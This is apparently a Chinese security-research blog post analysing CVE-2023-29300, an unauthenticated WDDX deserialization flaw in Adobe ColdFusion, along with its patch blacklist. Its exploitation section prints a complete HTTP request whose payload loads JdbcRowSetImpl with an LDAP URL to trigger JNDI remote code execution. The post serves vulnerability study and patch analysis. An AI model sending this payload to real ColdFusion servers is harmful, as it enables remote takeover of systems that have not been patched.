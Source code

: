

# Adobe ColdFusion 未授权反序列化分析 CVE-2023-29300 - 先知社区

Adobe ColdFusion 未授权反序列化分析 CVE-2023-29300

- - -

[![](assets/1706255648-2ae8c9f4352fc4f41fd2b52cec7b4601.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126081313-b1ff1508-bbdf-1.png)

漏洞利用条件：无  
漏洞影响版本：Adobe ColdFusion < 2018.0.18、Adobe ColdFusion < 2021.0.7  
本文分析环境：Adobe Fusion 2018.0.15 版本

## 前言

Adobe ColdFusion 是一种用于构建动态 Web 应用程序的服务器端编程语言和开发平台。它由 Adobe Systems 开发和维护。ColdFusion 的主要目标是简化 Web 应用程序的开发过程，通过提供一个强大且易于使用的平台，使开发人员能够快速构建功能丰富的 Web 应用。

## 漏洞分析

[上篇文章](https://xz.aliyun.com/t/13392) ，我们讲到 **coldfusion.filter.FilterUtils#WDDXDeserialize()** 里存在一个反序列化操作，里面反序列化处理类为 **coldfusion.wddx.WddxDeserializer** 。

[![](assets/1706255648-5027782fa99943296954d19f5e83fafc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126081328-babec3e6-bbdf-1.png)

我们可以先来简单的看一下 **Adobe ColdFusion** 中，对 **wddx** 数据的序列化和反序列化操作。先来看序列化。当我们使用 **coldfusion.wddx.WddxSerializer** 序列化一个对象时，序列化的结果会保存这个对象的完整信息。这些信息包括：类名、属性名、属性值。

[![](assets/1706255648-a51379fe8388127111ca3832a418d07f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126081337-c024a062-bbdf-1.png)

```plain
<wddxPacket version='1.0'><header/><data><struct type='LUser;'><var name='password'><string>123456</string></var><var name='username'><string>mochazz</string></var></struct></data></wddxPacket>
```

那么我们能通过反序列化，将这串 **xml** 还原成一个类吗？答案是：可以。

[![](assets/1706255648-0aa0fedc28c3bf7d809f3dc3f42ed84b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126081346-c5ae10e0-bbdf-1.png)

接下来，我们来看看 **coldfusion.wddx.WddxDeserializer** 是如何将 **wddx** 数据，恢复成一个对象的。我们在上面的 **xml** 数据中，能看到很多不同的标签，比如：**wddxPacket、header、struct、var** 等。每个标签实际上都有一个对应的 **handler** ，**xml** 解析器后续会依次调用这些 **handler** 的 **onStartElement()、onEndElement()** 方法。

[![](assets/1706255648-0d6234e5b738077f3b9a53b8083d5fa9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126081356-cb8b4050-bbdf-1.png)

我们来看 **StructHandler** 的 **onEndElement()** 方法。该方法有 3 个关键操作。

-   第 1 个操作：会把 **type** 的值作为类名，并调用 **getClassBySignature()** 去加载这个类
-   第 2 个操作：调用这个类的无参构造方法
-   第 3 个操作：调用 **setter** 方法给类的属性赋值

[![](assets/1706255648-fbf0a6e05c33340a26a9eb68d764deda.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126081404-d0643d66-bbdf-1.png)

根据 **getClassBySignature()** 方法加载类的规则，当我们指定 **type** 的值为 **Ejava.lang.StringE** 时，即可加载到 **java.lang.String** 类。

[![](assets/1706255648-110956956855588488e97533996eb9dc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126081412-d53d87d4-bbdf-1.png)

接着再来看 **coldfusion.wddx.StructHandler#setBeanProperties()** 方法是如何给类的属性赋值的。程序通过遍历目标对象的 **PropertyDescriptor** ，并根据用户输入的类属性名，调用对应的 **setter** 方法。

[![](assets/1706255648-56fca5944e56dee964b58d82a1a1ba7e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126081420-da3ce180-bbdf-1.png)

因此，我们可以得到一个结论： **coldfusion.filter.FilterUtils#WDDXDeserialize()** 函数可以调用任意类的 **setter** 方法。当然，调用的前提是目标类得有公有的无参构造方法，以及公有的单参数 **setter** 方法。这里，我们就可以选择最常被利用的 **com.sun.rowset.JdbcRowSetImpl** 类，通过触发 **JNDI** 实现 **RCE** 。

## 漏洞利用

```plain
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/filemanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: 127.0.0.1:8500
Content-Length: 270
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close

argumentCollection=<wddxPacket version='1.0'><header/><data><struct type='Ecom.sun.rowset.JdbcRowSetImplE'><var name='dataSourceName'><string>ldap://127.0.0.1:8888/exploit</string></var><var name='autoCommit'><boolean value='true'/></var></struct></data></wddxPacket>
```

[![](assets/1706255648-d38c203917bf483e0d949c0b3d42a17b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126081430-e0361bb0-bbdf-1.png)

## 补丁分析

官方补丁中，添加了一个 **coldfusion.wddx.WddxFilter** 过滤器，通过黑、白名单来过滤反序列化加载的类名。以 **coldfusion** 开头的类，均属于白名单。黑名单规则为： **!org.mozilla.\*\*;!com.sun.syndication.\*\*;!org.apache.commons.beanutils.\*\*;!org.jgroups.\*\*;!com.sun.rowset.\*\*;** 。

[![](assets/1706255648-55e555be923812bea2cfc0e52b00d7b4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126081441-e6b4fd44-bbdf-1.png)

[![](assets/1706255648-532f130d31a09b4bb85d8afd68038f5d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126081446-e986e5be-bbdf-1.png)

从官方拦截的黑名单中，我们可以倒推出漏洞提交者使用的一些恶意类。例如：通过 **org.jgroups.blocks.ReplicatedTree.setState()** 进行二次反序列化。

[![](assets/1706255648-9ada05228ad65ae8cd2e64387a9fdf66.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126081456-ef30a540-bbdf-1.png)

## 参考文章

[https://blog.projectdiscovery.io/adobe-coldfusion-rce/](https://blog.projectdiscovery.io/adobe-coldfusion-rce/)
